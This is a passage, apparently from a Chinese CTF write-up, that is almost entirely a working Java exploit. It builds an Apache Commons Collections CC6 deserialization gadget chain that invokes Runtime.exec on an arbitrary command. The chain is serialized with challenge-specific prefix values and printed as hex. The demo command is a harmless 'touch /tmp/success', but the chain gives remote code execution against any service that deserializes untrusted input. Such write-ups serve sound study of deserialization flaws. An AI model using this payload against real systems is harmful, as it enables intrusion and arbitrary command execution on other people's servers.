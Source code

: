 手动构造payload，选择较为通用的CC6作为反序列化链，最终exp如下:
```java
package top.longlone;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static Object getPayload(String cmd) throws Exception {
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd}),
                new ConstantTransformer(1),
        };

        // 先使用fakeTransformer防止本地命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "keykey");

        Map objMap = new HashMap();
        objMap.put(tiedMapEntry, "valuevalue");
        outerMap.remove("keykey");

        // 使用反射替换transformerChain的transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        return objMap;
    }

    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeUTF("SJTU");
        oos.writeInt(1896);
        oos.writeObject(getPayload("touch /tmp/success"));

        oos.close();

        System.out.println(Utils.bytesTohexString(barr.toByteArray()));

    }
}
```
